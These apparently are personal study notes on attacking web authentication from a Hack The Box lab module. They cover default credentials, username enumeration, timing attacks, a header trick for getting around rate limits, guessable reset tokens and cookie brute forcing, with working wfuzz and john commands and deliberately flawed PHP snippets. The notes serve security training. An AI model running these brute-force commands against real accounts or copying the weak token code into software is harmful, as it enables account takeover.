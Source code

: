 ## Info

## Brute forcing

**Default Creds**

- https://www.cirt.net/passwords
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
- https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv

**User brute forcing**

- Enumerate through Password Reset
- Enumerate through Registration Form
- Predictable Usernames eg: support.it
- Timing Attack
- Username Existence Inference
- User Unknown Attack  via wfuzz, brup
- 

`L3pr3ch4un@htb[/htb]$ wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php`


- Wordlists: https://github.com/danielmiessler/SecLists/tree/master/Usernames

**Timing Attack**

- Script: https://academy.hackthebox.com/storage/modules/80/scripts/timing_py.txt
- CMD: `L3pr3ch4un@htb[/htb]$ python3 timing.py /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt`

**Hash Time**

- sha1:   0:00:00.000082
- scrypt: 0:00:03.907575
- bcrypt: 0:00:22.660548

**Weak Rate limiting**

![](https://academy.hackthebox.com/storage/modules/80/06-captcha_id.png)

`"X-Forwarded-For": "1.2.3.4"`

## Brute Forcing Passwords


| Policy                        | Grep Command                                | Description                                             |
|-------------------------------|---------------------------------------------|---------------------------------------------------------|
| At least one uppercase letter | `grep -E '.*[A-Z].*' filename.txt`          | Matches lines with at least one uppercase letter.       |
| At least one lowercase letter | `grep -E '.*[a-z].*' filename.txt`          | Matches lines with at least one lowercase letter.       |
| At least one digit            | `grep -E '.*[0-9].*' filename.txt`          | Matches lines with at least one digit.                   |
| At least one special character | `grep -E '.*[!@#$%^&*()_+{}\[\]:;<>,.?~\\/-].*' filename.txt` | Matches lines with at least one special character. |
| Minimum length of 8 characters | `grep -E '.{8,}' filename.txt`              | Matches lines with a minimum length of 8 characters.     |

## Predictable Reset Token

![](https://academy.hackthebox.com/storage/modules/80/reset_flow2.png)

**Time based generation**

```
<?php
function generate_reset_token($username) {
  $time = intval(microtime(true) * 1000);
  $token = md5($username . $time);
  return $token;
}
```

- Script: `https://academy.hackthebox.com/storage/modules/80/scripts/reset_token_time_py.txt`

**Short Tokens**

`L3pr3ch4un@htb[/htb]$ wfuzz -z range,00000-99999 --ss "Valid" "https://brokenauthentication.hackthebox.eu/token.php?user=admin&token=FUZZ"`

**Weak Cryptographpy**

- **Attacking mt_rand()**: https://github.com/GeorgeArgyros/Snowflake

## Username Injection

```
<?php
  if isset($_REQUEST['userid']) {
	$userid = $_REQUEST['userid'];
  } else if isset($_SESSION['userid']) {
	$userid = $_SESSION['userid'];
  } else {
	die("unknown userid");
  }
```

- https://academy.hackthebox.com/storage/modules/80/scripts/username_injection_py.txt

## Brute Forcing Cookies

`user:htb;role:user`

**Encrypted or encoded token**

- Cyberchef
- https://github.com/s0md3v/Decodify
- https://academy.hackthebox.com/storage/modules/80/scripts/automate_cookie_tampering_py.txt

**Weak session token**

`L3pr3ch4un@htb[/htb]$ john --incremental=LowerNum --min-length=6 --max-length=6 --stdout| wfuzz -z stdin -b HTBSESS=FUZZ --ss "Welcome" -u https://brokenauthentication.hackthebox.eu/profile.php`


## Refrences

- https://www.cirt.net/passwords
- https://en.wikipedia.org/wiki/List_of_file_signatures
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
- https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
- https://github.com/danielmiessler/SecLists/tree/master/Usernames
- https://github.com/danielmiessler/SecLists/tree/master/Usernames/top-usernames-shortlist.txt
- https://en.wikipedia.org/wiki/List_of_the_most_common_passwords
- 
